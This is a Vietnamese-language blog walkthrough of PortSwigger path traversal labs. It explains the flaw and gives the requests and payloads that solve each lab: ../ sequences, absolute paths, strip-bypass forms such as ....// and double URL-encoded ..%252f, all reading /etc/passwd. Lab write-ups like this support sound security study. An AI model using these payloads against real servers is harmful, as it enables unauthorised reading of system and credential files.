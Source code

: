 ```yaml
---
title: "[PortSwigger Lab] - Path Traversal"
description: Solution of Path Traversal on PortSwigger Lab
date: 2025-06-01 11:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, path traversal, directory traversal]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-01-portswigger-lab-path-traversal/path-traversal.png
    alt: Path Traversal
---
```


## Introduction
--- 

**Path traversal** còn được gọi là **Directory traversal**. Các lỗ hổng này cho phép kẻ tấn công đọc các tệp tùy ý trên máy chủ đang chạy một ứng dụng. Điều này có thể bao gồm:
- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

Trong một số trường hợp, kẻ tấn công có thể ghi vào các tệp tùy ý trên máy chủ, cho phép chúng sửa đổi dữ liệu hoặc hành vi ứng dụng và cuối cùng kiểm soát toàn bộ máy chủ.

## Solve Path Traversal Lab
---
- **Relative path:** `../../../etc/passwd`
- **Absolute path:** `/etc/passwd`
- **View images**: Filter settings > Filter bt MINE type > enable `images`
### Lab: File path traversal, simple case
- Mở 1 image bất kỳ
```
https://0af90002046a785a82be974700ff007e.web-security-academy.net/image?filename=8.jpg
```

- Thay đổi đường dẫn của image
```
https://0af90002046a785a82be974700ff007e.web-security-academy.net/image?filename=../../../etc/passwd
```

- Điều này khiến ứng dụng đọc từ đường dẫn tệp sau
```
/var/www/images/../../../etc/passwd
```

- Trình tự `../` có giá trị trong một **file path** và có nghĩa là để tăng một cấp trong cấu trúc thư mục. Ba chuỗi liên tiếp `..`:
    - Lần 1:
    ```
    /var/www/../../etc/passwd
    ```
    - Lần 2:
    ```
    /var/../etc/passwd
    ```
    - Lần 3:
    ```
    /etc/passwd
    ```

- Cuối cùng ứng dụng hiển thị nội dung của file `/etc/passwd`
- `/etc/passwd` là một tập tin hệ thống rất quan trọng trong các hệ điều hành **Unix**và **Linux**. Nó lưu trữ thông tin về user trên hệ thống. Dù tên là `"passwd" (password)`, nhưng mật khẩu thực tế không còn được lưu ở đây nữa mà được lưu trong tệp `/etc/shadow` với quyền truy cập hạn chế hơn.
- Truy cập **HTTP history** để xem nội dung

### File path traversal, traversal sequences blocked with absolute path bypass
- `../` đã bị block, cần bypass thông qua **absolute path**
- Mở 1 file ảnh bất kỳ trong tab mới
```
https://0a35004b0379e87d805eb796009c003b.web-security-academy.net/image?filename=33.jpg
```
- Thay đổi tên ảnh bằng **absolute path**: `/etc/passwd`
```
https://0a35004b0379e87d805eb796009c003b.web-security-academy.net/image?filename=/etc/passwd
```
- Truy cập **HTTP history** để xem nội dung

### File path traversal, traversal sequences stripped non-recursively
#### Analysis
Ở lab này, chương trình sẽ loại bỏ các **traversal sequences**, tức:
```
../../../etc/passwd
```
Sẽ trở thành
```
etc/passwd
```
Chương trình sẽ xóa tất cả `../` ra khỏi chuỗi

#### Exploit
Ý tưởng: vẫn để chương trình loại bỏ `../`, nhưng vẫn giữ được đường dẫn tương đối đến `/etc/passwd`
- Payload 1: ..././..././..././etc/passwd
- Payload 2: ....//....//....//etc/passwd
- Payload 3: ....\/....\/....\/etc/passwd

Sau khi chương trình đã loại bỏ `../` hoặc `..\` thì mọi thứ đểù trở thành `../../../etc/passwd`
> **Windows** sử dụng cả `../` và `..\`
{: .prompt-info}

- Thay đổi đường dẫn hình ảnh sử dụng các payload trên.
- Truy cập **HTTP history** để xem nội dung

### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode
#### Analysis
- Để giải quyết lab này, cần phải **encode url** 2 lần
- Mốt số trường hợp webserver decode 1 lần và kiểm tra `../` có tồn tại không để thực hiện logic khác
- Sau khi decode 1 lần, request được gửi đến **Backend** để xử lý, và **Path traversal** xảy ra
#### Exploit
- Gửi request đến **Repeater**, thay đổi đường dẫn
```http
GET /image?filename=../../../etc/passwd HTTP/2
Host: 0a24006d03b4e0b48025dad200d800f9.web-security-academy.net
```

- Bôi đen `../../../`, tại tab **Inspector**, phần **Decoded from** chon ký hiệu `+`
- Ở phần **Decoded from** vửa được tạo, click **select**, chọn **URL encoding**
- Tại đó, nhập lại `../../../`
- Copy nội dung phần **Selected text** và dán vào request
```http
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/2
Host: 0a24006d03b4e0b48025dad200d800f9.web-security-academy.net
```

### Lab: File path traversal, validation of start of path
- Mở 1 file ảnh tùy ý ở tab khác và gửi nó đến **Repeater**
- Ta thấy nó chỉ định bắt đầu từ `/var/www/image/filepath`
```http
GET /image?filename=/var/www/images/38.jpg HTTP/2
Host: 0a3c0092041de0d6800dc688002700bb.web-security-academy.net
```
- Thêm **traversal sequence** để chuyển hướng đến **root** rồi trở về **/etc/passwd**
- Thay đổi request để đọc file `/etc/passwd`
```http
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2
Host: 0a3c0092041de0d6800dc688002700bb.web-security-academy.net
```


---
Goodluck! 🍀🍀🍀
